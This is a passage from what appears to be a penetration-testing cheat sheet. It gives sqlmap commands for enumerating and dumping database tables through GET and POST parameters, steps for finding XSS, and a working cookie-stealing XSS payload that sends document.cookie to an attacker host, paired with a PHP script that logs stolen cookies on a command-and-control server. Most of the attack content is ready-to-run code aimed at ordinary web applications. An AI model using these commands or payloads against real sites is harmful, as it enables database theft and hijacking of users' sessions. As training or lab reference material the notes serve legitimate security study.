 ```
sqlmap -r login.req -D dbname --tables  
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id -D dbname --tables #GET Method  
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin&password=admin" -D dbname --tables #POST Method

Get data in a Database tables

sqlmap -r login.req -D dbname -T table_name --dump  
sqlmap -u "[http://10.10.10.10/file.php?id=1](http://10.10.10.10/file.php?id=1)" -p id -D dbname -T table_name --dump #GET Method  
sqlmap -u "[http://10.10.10.10/login.php](http://10.10.10.10/login.php)" --data="user=admin&password=admin" -D dbname -T table_name --dump #POST Method

* * *

### Cross Site Scripting (XSS)

The general steps I use to find and test XSS are as follows:

1.  List item
2.  Find a reflection point
3.  Test with tag
4.  Test with HTML/JavaScript code (alert('XSS'))

Some harmless tags that could be used to identify XSS  
`<i>Text</i>`  
`<b>Text</b>`  
`<pre>Text</pre>`  
`<plaintext>Text</plaintext>`

To test the XSS, inject some HTML/Javasctipt  
`<script>alert('XSS')</script>`

Reflected XSS = Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload  
Persistent XSS = Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post

#### XSS: stealing cookie content and sending it to an attacker

XSS to insert on target:

```
<script>
var i = new Image();
i.src="http://attacker.site/log.php?q="+document.cookie; 
</script>
```

PHP script to store captured data on our c2:

```
<?PHP
$filename="/tmp/log.txt"; // Where to save, this file should be already created on our c2
$fp=fopen($filename, 'a'); 
$cookie=$_GET['q']; // the parameter to store the cookies/ whatever command we need into
fwrite($fp, $cookie);
fclose($fp);
?>
```

#### XSSer

```